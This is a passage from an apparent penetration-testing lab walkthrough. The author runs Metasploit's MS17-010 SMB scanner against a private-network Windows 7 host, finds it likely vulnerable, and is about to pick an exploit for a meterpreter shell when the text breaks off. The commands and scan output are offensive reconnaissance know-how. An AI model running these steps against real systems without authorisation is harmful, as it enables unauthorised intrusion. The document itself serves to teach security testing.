 ~~~
   CHECK_PIPE   false                                                           no        Check for named pipe on vulnerable hosts
   NAMED_PIPES  /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        445                                                             yes       The SMB service port (TCP)
   SMBDomain    .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                      no        The password for the specified username
   SMBUser                                                                      no        The username to authenticate as
   THREADS      1                                                               yes       The number of concurrent threads (max one per host)
~~~
It looks like I only have to set the remote host by entering the following command: **set RHOSTS 192.168.138.9**.
~~~
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.138.9
RHOSTS => 192.168.138.9
~~~
Then I double check all the options and if correct I execute the module by the command **run**.
~~~
msf6 auxiliary(scanner/smb/smb_ms17_010) > options

Module options (auxiliary/scanner/smb/smb_ms17_010):

   Name         Current Setting                                                 Required  Description
   ----         ---------------                                                 --------  -----------
   CHECK_ARCH   true                                                            no        Check for architecture on vulnerable hosts
   CHECK_DOPU   true                                                            no        Check for DOUBLEPULSAR on vulnerable hosts
   CHECK_PIPE   false                                                           no        Check for named pipe on vulnerable hosts
   NAMED_PIPES  /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS       192.168.138.9                                                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        445                                                             yes       The SMB service port (TCP)
   SMBDomain    .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                      no        The password for the specified username
   SMBUser                                                                      no        The username to authenticate as
   THREADS      1                                                               yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 192.168.138.9:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.138.9:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
~~~
It looks like the machine is indeed vulnerable for MS17-010! 
Now it is time to select the exploit which can give me a meterpreter shell. I have to search again in Metasploit and select the exploit by using the **use** command.